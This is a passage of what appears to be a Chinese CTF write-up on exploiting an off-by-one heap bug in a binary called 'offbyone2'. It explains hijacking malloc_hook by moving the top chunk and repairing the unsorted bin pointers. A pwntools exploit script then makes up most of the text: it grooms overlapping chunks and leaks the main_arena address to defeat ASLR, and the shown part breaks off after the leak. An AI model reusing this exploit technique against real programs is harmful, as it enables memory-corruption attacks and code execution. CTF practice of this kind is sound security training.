 常规的修改mallochook指针的方式是利用fastbinattack，这里由于我们只能申请大于0x80大小的堆块，所以这里采用将topchunk修改为mallochook-0x10，而后从topchunk里申请，值得注意的一点是，由于之前的操作原本的堆结构以及指针已经面目全非，而在我们申请一个堆块的时候检查顺序是遍历所有bin，而后才在topchunk里寻找，这里我们需要维护unsortedbin的两个指针，使其指向自己，原理与劫持topchunk类似，在此不再赘述
具体细节参考exp，注释写的还算详细
exp：

    from pwn import *
    context.log_level = 'debug'
    def add(size,note):
    	p.sendlineafter(">> ","1")
    	p.sendlineafter("length: ",str(size))
    	p.sendafter("note:",note)
    
    def delete(index):
    	p.sendlineafter(">> ","2")
    	p.sendlineafter("index: ",str(index))
    
    def show(index):
    	p.sendlineafter(">> ","3")
    	p.sendlineafter("index: ",str(index))
    
    local=1
    libc=ELF('./libc.so.6')
    if local:
    	p=process('./offbyone2')#,env={'LD_PRELOAD':libc.path})
    else:
    	p=remote('127.0.0.1',10006)
    
    add(0x88,'A'*0x88)#0
    add(0x210,'B'*0x1f0+p64(0x200)+p64(0x21)+'\n')#1
    add(0x80,'C'*0x80)#2
    add(0x80,'D'*0x80)#3
    #gdb.attach(p)
    delete(1)
    #gdb.attach(p)
    delete(0)
    #gdb.attach(p)
    add(0x88,'A'*0x88)


    add(0x100,'B'*0x100)#1
    #gdb.attach(p)
    add(0x80,'D'*0x80)#4
    #gdb.attach(p)
    
    delete(1)
    #gdb.attach(p)
    delete(2)
    #gdb.attach(p)
    add(0x100,'B'*0x100)#1
    #gdb.attach(p)


    show(4)
    main_arena=u64(p.recvline(keepends=False).ljust(8,'\0'))-0x58
    print hex(main_arena)
    